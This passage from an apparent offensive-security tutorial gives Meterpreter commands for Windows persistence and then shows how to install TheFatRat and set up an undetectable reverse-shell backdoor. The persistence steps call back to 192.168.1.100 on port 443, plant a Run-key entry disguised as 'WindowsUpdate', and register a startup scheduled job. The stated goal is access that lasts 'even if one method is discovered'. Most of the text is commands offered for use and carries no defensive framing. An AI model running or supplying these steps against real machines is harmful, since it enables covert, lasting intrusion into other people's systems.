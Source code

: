2. Implement persistence:

```bash
# On the target system after payload execution
meterpreter > run persistence -X -i 60 -p 443 -r 192.168.1.100
meterpreter > run scheduleme -m 1 -l c:\windows\temp
meterpreter > reg setval -k HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v WindowsUpdate -d "c:\windows\temp\update.exe"
```

3. Create multiple redundant persistence mechanisms:

```bash
# WMI persistence
meterpreter > run winenum
meterpreter > load powershell
meterpreter > powershell_execute "$job = Register-ScheduledJob -Name WindowsUpdate -ScriptBlock {c:\windows\temp\update.exe} -Trigger (New-JobTrigger -AtStartup)"
```

This establishes persistence through multiple methods, ensuring access even if one method is discovered.

## TheFatRat: Backdoor Creator

TheFatRat is a comprehensive backdoor creation tool that can generate sophisticated multi-platform payloads, particularly effective for Android devices.

### Installation

If not already installed:

```bash
git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh
./setup.sh
```

### Basic Usage

```bash
fatrat

# Choose option 1 for backdoor with original app
# Choose option 6 for Android backdoor
# Choose option 10 for PowerShell attacks
```

### Multi-platform Payloads

TheFatRat can create backdoors for various platforms:

#### 1. Windows Backdoors

```bash
# From the main menu
1  # Create Backdoor with Executable (FUD)

# Select payload type
1  # windows/meterpreter/reverse_tcp

# Set parameters
set LHOST 192.168.1.100
set LPORT 443
```
